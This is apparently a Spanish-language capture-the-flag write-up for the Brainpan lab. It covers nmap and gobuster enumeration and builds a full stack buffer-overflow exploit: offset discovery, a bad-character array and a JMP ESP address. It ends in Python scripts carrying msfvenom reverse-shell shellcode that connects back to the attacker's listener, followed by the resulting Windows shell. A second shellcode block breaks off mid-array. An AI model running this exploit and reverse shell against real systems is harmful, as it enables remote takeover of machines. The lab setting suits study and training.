






Brainpan¶
Enumeration¶
Nmap¶
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.55.82 -oN allPorts.txt
PORT STATE SERVICE
9999/tcp open abyss
10000/tcp open snet-sensor-mgmt
nmap -sC -sV -p9999,10000 -Pn 10.201.55.82 -oN target.txt
PORT STATE SERVICE VERSION
9999/tcp open abyss?
| fingerprint-strings:
| NULL:
| _| _|
| _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
| _|_| _| _| _| _| _| _| _| _| _| _| _|
| _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
| [________________________ WELCOME TO BRAINPAN _________________________]
|_ ENTER THE PASSWORD
10000/tcp open http SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.95%I=7%D=9/30%Time=68DC254C%P=x86_64-pc-linux-gnu%r(NU
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.91 seconds
En el Puerto 9999, solo encontramos una posible ruta para enviar mensajes, nada útil por ahora.
nc 10.201.55.82 9999
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
[________________________ WELCOME TO BRAINPAN _________________________]
ENTER THE PASSWORD
>> hola
ACCESS DENIED
HTTP¶
whatweb http://10.201.55.82:10000
http://10.201.55.82:10000 [200 OK] Country[RESERVED][ZZ], HTTPServer[SimpleHTTP/0.6 Python/2.7.3], IP[10.201.55.82], Python[2.7.3]

Fuzz al sitio web para encontrar quizas rutas ocultas
gobuster dir -u http://10.201.55.82:10000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.201.55.82:10000/
[+] Method: GET
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/bin (Status: 301) [Size: 0] [--> /bin/]
Encontramos un ruta /bin onde existe un ejecutable

Vamos a transferir nuestro ejecutable a nuestra máquina para BoF


Ahora vamos comenzar con el proceso de para buscar donde poder inyectar código malicioso.
BoF¶
Realizando pruebas hemos logrado un desbordamiento de memoria del ejecutable

Fuzz¶
Fase inicial de Fuzzing y tomando el control del registro EIP
python3 -c "print('A' * 100)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
python3 -c "print('A' * 500)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Iniciamos el Immunity debugger
msf-pattern_create -l 700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A

EIP: 35724134
Lograremos ubicar donde ocurre el desbordamiento de buffer: 524
msf-pattern_offset -l 700 -q 35724134
[*] Exact match at offset 524
Creamos un PAYLOAD con python
import socket
import sys
import time
ip = "192.168.159.134"
port = 9999
timeout = 5
message = b"A" * 524 + b"B" * 4
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message)
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()
Corremos el Script
python3 bof.py
Enviado Paylaod...
Hemos logrado cambiar el EIP por los caracteres que enviamos

Shellcode¶
Asignación de espacio para Shellcode
Modificamos nuestro payload para averiguar donde se dirigir los caracteres de C introducidos y volvemos a correr el Immunity Debugger
Modificamos nuestro Scrip de python
import socket
import sys
import time
ip = "192.168.159.134"
port = 9999
timeout = 5
message = b"A" * 524 + b"B" * 4 + b"C" * 200
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()

Bytearay¶
Generación de Bytearrays y detección de Badchars
# con este comando averiguamos donde guardar workingfolder
!mona config
# aca introducimos donde guardar el bytearay
!mona config -set workingfolder C:\Users\rodrigo\Desktop\brainstorm
# generamos bytearray
!mona bytearray
# quitar nullbyte
!mona bytearray -cpb '\x00'

Nos trasferimos nuestro archivo generado para incluirlo en nuestro archivo de python
import socket
import sys
import time
ip = "192.168.159.134"
port = 9999
timeout = 5
message = b"A" * 524 + b"B" * 4
badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + badchars + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()
Volvemos a correr el Immunity Debugger para ver los caracteres en ESP

# buscamos donde coincida comienza el cambio del ESP
!mona compare -a 0x0022F930
# buscamos la comparación
!mona compare -a 0x0022F930 -f C:\Users\rodrigo\Desktop\brainpan\bytearray.bin

OpCodes¶
Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode
Ahora que no tenemos BadChar debemos encontrar el punto de salto para el ESP, el cual es 311712f3
!mona jmp -r esp -cpb "\x00"


Vamos a volver a iniciar el ImmunityDebugger agregando un breakpoint en 311712f3 y modificamos nuestro Script
import socket
import sys
import time
ip = "192.168.159.134"
port = 9999
timeout = 5
message = b"A" * 524 + b"\xf3\x12\x17\x31"
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()
Enviamos el Paylaod
python3 bof.py
Enviado Paylaod...
excelente, hemos logrado el breakpoint y a puntar desde ahora al EIP


Debemos generar un payload con msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.159.128 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] =
"\xbe\xb9\x3e\xad\x24\xd9\xc5\xd9\x74\x24\xf4\x5d\x29\xc9"
"\xb1\x52\x83\xc5\x04\x31\x75\x0e\x03\xcc\x30\x4f\xd1\xd2"
"\xa5\x0d\x1a\x2a\x36\x72\x92\xcf\x07\xb2\xc0\x84\x38\x02"
"\x82\xc8\xb4\xe9\xc6\xf8\x4f\x9f\xce\x0f\xe7\x2a\x29\x3e"
"\xf8\x07\x09\x21\x7a\x5a\x5e\x81\x43\x95\x93\xc0\x84\xc8"
"\x5e\x90\x5d\x86\xcd\x04\xe9\xd2\xcd\xaf\xa1\xf3\x55\x4c"
"\x71\xf5\x74\xc3\x09\xac\x56\xe2\xde\xc4\xde\xfc\x03\xe0"
"\xa9\x77\xf7\x9e\x2b\x51\xc9\x5f\x87\x9c\xe5\xad\xd9\xd9"
"\xc2\x4d\xac\x13\x31\xf3\xb7\xe0\x4b\x2f\x3d\xf2\xec\xa4"
"\xe5\xde\x0d\x68\x73\x95\x02\xc5\xf7\xf1\x06\xd8\xd4\x8a"
"\x33\x51\xdb\x5c\xb2\x21\xf8\x78\x9e\xf2\x61\xd9\x7a\x54"
"\x9d\x39\x25\x09\x3b\x32\xc8\x5e\x36\x19\x85\x93\x7b\xa1"
"\x55\xbc\x0c\xd2\x67\x63\xa7\x7c\xc4\xec\x61\x7b\x2b\xc7"
"\xd6\x13\xd2\xe8\x26\x3a\x11\xbc\x76\x54\xb0\xbd\x1c\xa4"
"\x3d\x68\xb2\xf4\x91\xc3\x73\xa4\x51\xb4\x1b\xae\x5d\xeb"
"\x3c\xd1\xb7\x84\xd7\x28\x50\x6b\x8f\xad\x20\x03\xd2\xd1"
"\x31\x88\x5b\x37\x5b\x20\x0a\xe0\xf4\xd9\x17\x7a\x64\x25"
"\x82\x07\xa6\xad\x21\xf8\x69\x46\x4f\xea\x1e\xa6\x1a\x50"
"\x88\xb9\xb0\xfc\x56\x2b\x5f\xfc\x11\x50\xc8\xab\x76\xa6"
"\x01\x39\x6b\x91\xbb\x5f\x76\x47\x83\xdb\xad\xb4\x0a\xe2"
"\x20\x80\x28\xf4\xfc\x09\x75\xa0\x50\x5c\x23\x1e\x17\x36"
"\x85\xc8\xc1\xe5\x4f\x9c\x94\xc5\x4f\xda\x98\x03\x26\x02"
"\x28\xfa\x7f\x3d\x85\x6a\x88\x46\xfb\x0a\x77\x9d\xbf\x2b"
"\x9a\x37\xca\xc3\x03\xd2\x77\x8e\xb3\x09\xbb\xb7\x37\xbb"
"\x44\x4c\x27\xce\x41\x08\xef\x23\x38\x01\x9a\x43\xef\x22"
"\x8f";
Modificamos nuestro Scrip de python
import socket
import sys
import time
ip = "192.168.159.134"
port = 9999
timeout = 5
message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16
payload = (b"\xbe\xb9\x3e\xad\x24\xd9\xc5\xd9\x74\x24\xf4\x5d\x29\xc9"
b"\xb1\x52\x83\xc5\x04\x31\x75\x0e\x03\xcc\x30\x4f\xd1\xd2"
b"\xa5\x0d\x1a\x2a\x36\x72\x92\xcf\x07\xb2\xc0\x84\x38\x02"
b"\x82\xc8\xb4\xe9\xc6\xf8\x4f\x9f\xce\x0f\xe7\x2a\x29\x3e"
b"\xf8\x07\x09\x21\x7a\x5a\x5e\x81\x43\x95\x93\xc0\x84\xc8"
b"\x5e\x90\x5d\x86\xcd\x04\xe9\xd2\xcd\xaf\xa1\xf3\x55\x4c"
b"\x71\xf5\x74\xc3\x09\xac\x56\xe2\xde\xc4\xde\xfc\x03\xe0"
b"\xa9\x77\xf7\x9e\x2b\x51\xc9\x5f\x87\x9c\xe5\xad\xd9\xd9"
b"\xc2\x4d\xac\x13\x31\xf3\xb7\xe0\x4b\x2f\x3d\xf2\xec\xa4"
b"\xe5\xde\x0d\x68\x73\x95\x02\xc5\xf7\xf1\x06\xd8\xd4\x8a"
b"\x33\x51\xdb\x5c\xb2\x21\xf8\x78\x9e\xf2\x61\xd9\x7a\x54"
b"\x9d\x39\x25\x09\x3b\x32\xc8\x5e\x36\x19\x85\x93\x7b\xa1"
b"\x55\xbc\x0c\xd2\x67\x63\xa7\x7c\xc4\xec\x61\x7b\x2b\xc7"
b"\xd6\x13\xd2\xe8\x26\x3a\x11\xbc\x76\x54\xb0\xbd\x1c\xa4"
b"\x3d\x68\xb2\xf4\x91\xc3\x73\xa4\x51\xb4\x1b\xae\x5d\xeb"
b"\x3c\xd1\xb7\x84\xd7\x28\x50\x6b\x8f\xad\x20\x03\xd2\xd1"
b"\x31\x88\x5b\x37\x5b\x20\x0a\xe0\xf4\xd9\x17\x7a\x64\x25"
b"\x82\x07\xa6\xad\x21\xf8\x69\x46\x4f\xea\x1e\xa6\x1a\x50"
b"\x88\xb9\xb0\xfc\x56\x2b\x5f\xfc\x11\x50\xc8\xab\x76\xa6"
b"\x01\x39\x6b\x91\xbb\x5f\x76\x47\x83\xdb\xad\xb4\x0a\xe2"
b"\x20\x80\x28\xf4\xfc\x09\x75\xa0\x50\x5c\x23\x1e\x17\x36"
b"\x85\xc8\xc1\xe5\x4f\x9c\x94\xc5\x4f\xda\x98\x03\x26\x02"
b"\x28\xfa\x7f\x3d\x85\x6a\x88\x46\xfb\x0a\x77\x9d\xbf\x2b"
b"\x9a\x37\xca\xc3\x03\xd2\x77\x8e\xb3\x09\xbb\xb7\x37\xbb"
b"\x44\x4c\x27\xce\x41\x08\xef\x23\x38\x01\x9a\x43\xef\x22"
b"\x8f")
try:
print("Enviando Payload")
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.send(message + payload + b'\r\n')
s.recv(1024)
time.sleep(1)
except:
print("no se puede conectar al servidor")
sys.exit()
Si todo ha salido bien, si nos ponemos en escucha con nc debes el desbordamiento de Buffer resulto y obtenemos acceso al equipo.
python3 bof.py
Enviando
Probamos si podemos acceder a laboratorio de prueba de BoF.
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.134] 49215
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.
C:\Users\rodrigo\Desktop\brainpan>whoami
whoami
win-vd633hun67h\rodrigo
C:\Users\rodrigo\Desktop\brainpan>
Debemos cambiar el Scrip para ingresar al equipo de THM
Generar Payload con msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.244.36 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] =
"\xd9\xea\xd9\x74\x24\xf4\xbd\x92\x5d\xa2\x17\x58\x31\xc9"
"\xb1\x52\x83\xc0\x04\x31\x68\x13\x03\xfa\x4e\x40\xe2\x06"
"\x98\x06\x0d\xf6\x59\x67\x87\x13\x68\xa7\xf3\x50\xdb\x17"
"\x77\x34\xd0\xdc\xd5\xac\x63\x90\xf1\xc3\xc4\x1f\x24\xea"
"\xd5\x0c\x14\x6d\x56\x4f\x49\x4d\x67\x80\x9c\x8c\xa0\xfd"
"\x6d\xdc\x79\x89\xc0\xf0\x0e\xc7\xd8\x7b\x5c\xc9\x58\x98"
"\x15\xe8\x49\x0f\x2d\xb3\x49\xae\xe2\xcf\xc3\xa8\xe7\xea"
"\x9a\x43\xd3\x81\x1c\x85\x2d\x69\xb2\xe8\x81\x98\xca\x2d"
"\x25\x43\xb9\x47\x55\xfe\xba\x9c\x27\x24\x4e\x06\x8f\xaf"
"\xe8\xe2\x31\x63\x6e\x61\x3d\xc8\xe4\x2d\x22\xcf\x29\x46"
"\x5e\x44\xcc\x88\xd6\x1e\xeb\x0c\xb2\xc5\x92\x15\x1e\xab"
"\xab\x45\xc1\x14\x0e\x0e\xec\x41\x23\x4d\x79\xa5\x0e\x6d"
"\x79\xa1\x19\x1e\x4b\x6e\xb2\x88\xe7\xe7\x1c\x4f\x07\xd2"
"\xd9\xdf\xf6\xdd\x19\xf6\x3c\x89\x49\x60\x94\xb2\x01\x70"
"\x19\x67\x85\x20\xb5\xd8\x66\x90\x75\x89\x0e\xfa\x79\xf6"
"\x2f\x05\x50\x9f\xda\xfc\x33\xaa\x13\x0a\xe7\xc2\x21\xf2"
